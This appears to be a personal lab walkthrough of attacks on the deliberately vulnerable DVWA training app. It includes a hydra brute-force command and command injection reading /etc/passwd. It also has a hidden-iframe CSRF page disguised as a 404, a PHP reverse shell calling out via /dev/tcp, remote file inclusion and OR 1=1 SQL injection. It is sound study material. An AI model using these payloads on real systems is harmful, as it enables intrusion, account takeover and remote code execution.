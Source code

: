 # [Brute Force]

--- 

## Steps to Exploit

1. Navigate to a directory with a wordlist in it. Or copy one to a directory. Or set the path to it in hydra.
2. hydra -l admin -P rockyou.txt 192.168.1.117 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=58g00j5r76tjr9jhji9gbif564;security=medium:F=Username and/or password incorrect."
- -l states its a login
- -P calls a pass list
- IP is DVWA dest IP on vlan (hopefully lol)
- Set web server directory
- If you inspect the DVWA login form you will see the name of the elements you need to specify for hydra to know what on the web page its trying to brute force.
- Set cookies. Without DVWA rejects the request as it doesn't represent a legitimate request. Can get these from performing a get request on the server and viewing dev stuff in firefox/chrome/brave etc.
3. Login


# [Command Execution]

--- 

## Steps to Exploit

1. Get an IP from your internal network/vlan.
- In Linux arp -a
2. Different command chaining options
- ; && || | $()
3. Try all of these. Some work
4. 192.168.1.1 | cat /etc/passwd


# [CSRF]

--- 

## Steps to Exploit

1. So to make this a bit more interesting I'll whack it in an iframe. When loaded it will change your password on DVWA.
2. After having a look at network in dev tools the request is a GET request when changing pass
3. Also observed if you have a look in the URL after changing the password the params are very easily editable to change pass
4. Because there isn't a token in the GET request, we don't need to call a specific cookie/user token to choose what accounts password we are changing.
5. Here's the HTML page
- <!DOCTYPE html>
<html>
  <head>
    <title>Error</title>
  </head>
  <body>
    <h2>404 Page Not Found</h2>
    <iframe 
      src="http://192.168.1.117/dvwa/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change" 
      width="0" 
      height="0" 
      style="display:none;">
    </iframe>
  </body>
</html>
6. Changes password to 'password123' for the user that is logged in. This only works if the user is logged into the website at the time.
7. To test this work you can boot up burp for your browser and you will see the forward request come through when you load this malicious html file.
8. You can also host a HTTP server on your host as well. Then if I visit (my-host-ip:port-assigned-to-http-server/malicious-html-filename.html it will commit the change.
9. So I could send this link to a mailbox. And anything that clicks on, that is logged in to the website in question. Will have there password changed.
10. CSRF vulnerabilities are quite obsolete now as most modern sites don't send cookies via GET/POST requests.


# [File Inclusion]

---

## Steps to Exploit LOW

- I've done Low here cause I think it's neat. And demonstrates a bit.

1. Alright lets run a .php reverse shell for this
2. Find ur ip on the internal network/vlan
3. <?php exec("/bin/bash -c 'bash -i>& /dev/tcp/192.168.1.120/1234 0>&1'"); ?>
- Save as shell.php
- IP is your Kali machines IP and the port is whatever port you are going to run the listener on
4. 'Python -m http.server'
5. 'nc -lvnp 1234'
6. Now in the URL in DVWA. Set http://192.168.1.117/dvwa/vulnerabilities/fi/?page=http://192.168.1.120:8080/shell.php (Whatever the equivalent is for ur machine)
7. This tricks the web server into running the .php file from our kali machine. Thus, creating a reverse shell. Easy right!

## Steps to Exploit MEDIUM

# [SQL Injection]

---

## Steps to Exploit MEDIUM
1. Looking at the .php code we can see that mysql_real_escape_string is used
- This escapes ' " \ NULL so none of these can be used in the SQLi
2. So instead we will just use 1 OR 1=1
- 1 because we want the first and last name of user 1. OR 1=1 which is always true.
- So the query would look like this in the backend $getid = "SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1";
- Which would then set the $id variable to $id=1 OR TRUE
- Thus returning all the values.

